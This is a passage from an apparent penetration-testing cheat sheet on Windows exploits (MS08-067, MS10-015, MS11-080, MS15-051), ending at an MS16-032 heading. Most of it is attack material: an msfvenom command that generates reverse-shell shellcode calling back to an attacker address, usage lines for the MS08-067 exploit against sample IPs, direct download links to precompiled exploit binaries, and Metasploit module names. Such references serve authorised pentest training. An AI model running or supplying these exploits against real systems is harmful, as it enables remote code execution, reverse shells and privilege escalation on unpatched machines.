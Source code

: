 ```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```

#### MS10-015 (KiTrap0D) - Microsoft Windows NT/2000/2003/2008/XP/Vista/7

'KiTrap0D' User Mode to Ring Escalation (MS10-015)

```powershell
https://www.exploit-db.com/exploits/11199

Metasploit : exploit/windows/local/ms10_015_kitrap0d
```

#### MS11-080 (afd.sys) - Microsoft Windows XP/2003

```powershell
Python: https://www.exploit-db.com/exploits/18176
Metasploit: exploit/windows/local/ms11_080_afdjoinleaf
```

#### MS15-051 (Client Copy Image) - Microsoft Windows 2003/2008/7/8/2012

```powershell
printf("[#] usage: ms15-051 command \n");
printf("[#] eg: ms15-051 \"whoami /all\" \n");

# x32
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/Win32/ms15-051.exe

# x64
https://github.com/rootphantomer/exp/raw/master/ms15-051%EF%BC%88%E4%BF%AE%E6%94%B9%E7%89%88%EF%BC%89/ms15-051/ms15-051/x64/ms15-051.exe

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051
use exploit/windows/local/ms15_051_client_copy_image
```

#### MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
